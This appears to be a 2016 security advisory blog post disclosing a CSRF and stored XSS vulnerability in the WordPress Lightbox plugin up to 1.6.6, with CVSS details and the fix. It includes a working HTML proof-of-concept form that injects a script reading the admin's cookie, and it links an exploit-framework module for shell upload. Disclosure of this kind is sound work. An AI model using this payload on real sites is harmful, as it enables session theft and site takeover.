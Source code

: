 ```yaml
---
layout: post
title: Lightbox <= 1.6.6 CSRF Stored XSS
date: 2016-12-02
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - lightbox
  - csrf
  - stored xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in the output generated by `/admin/view/huge_it_light_box.php`, it is possible to store and execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/lightbox/](https://wordpress.org/plugins/lightbox/
)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the output generated by `/admin/view/huge_it_light_box.php`, it is possible to store and execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.6.6 and below

## Solution
Upgrade to version 1.6.8

## WordPress Exploit Framework Module
[exploit/xss/reflected/lightbox\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/lightbox_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="http://[target]/wp-admin/admin.php?page=huge_it_light_box&amp;hugeit_task=save" method="post">
  <input type="text" name="light_box_speed" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;">
  <input type="text" name="light_box_style" value="1" />
  <input type="text" name="light_box_transition" value="elastic" />
  <input type="text" name="light_box_fadeout" value="300" />
  <input type="text" name="light_box_title" value="false" />
  <input type="text" name="params[light_box_opacity]" value="20" />
  <input type="text" name="params[light_box_open]" value="false" />
  <input type="text" name="params[light_box_overlayclose]" value="false" />
  <input type="text" name="params[light_box_overlayclose]" value="true" />
  <input type="text" name="params[light_box_esckey]" value="false" />
  <input type="text" name="params[light_box_arrowkey]" value="false" />
  <input type="text" name="params[light_box_loop]" value="false" />
  <input type="text" name="params[light_box_loop]" value="true" />
  <input type="text" name="params[light_box_closebutton]" value="false" />
  <input type="text" name="params[light_box_closebutton]" value="true" />
  <input type="text" name="params[light_box_fixed]" value="false" />
  <input type="text" name="params[light_box_fixed]" value="true" />
  <input type="text" name="params[slider_title_position]" value="5" />
  <input type="text" name="params[light_box_size_fix]" value="false" />
  <input type="text" name="params[light_box_width]" value="500" />
  <input type="text" name="params[light_box_height]" value="500" />
  <input type="text" name="params[light_box_maxwidth]" value="768" />
  <input type="text" name="params[light_box_maxheight]" value="500" />
  <input type="text" name="params[light_box_initialwidth]" value="300" />
  <input type="text" name="params[light_box_initialheight]" value="100" />
  <input type="text" name="params[light_box_slideshow]" value="false" />
  <input type="text" name="params[light_box_slideshowspeed]" value="2500" />
  <input type="text" name="params[light_box_slideshowauto]" value="false" />
  <input type="text" name="params[light_box_slideshowauto]" value="true" />
  <input type="text" name="params[light_box_slideshowstart]" value="start slideshow" />
  <input type="text" name="params[light_box_slideshowstop]" value="stop slideshow" />
  <input type="text" name="params[watermarket_image]" value="false" />
  <input type="text" name="params[watermark_width]" value="0" />
  <input type="text" name="params[watermark_transparency]" value="0" />
  <input type="submit" value="submit">
</form>
```
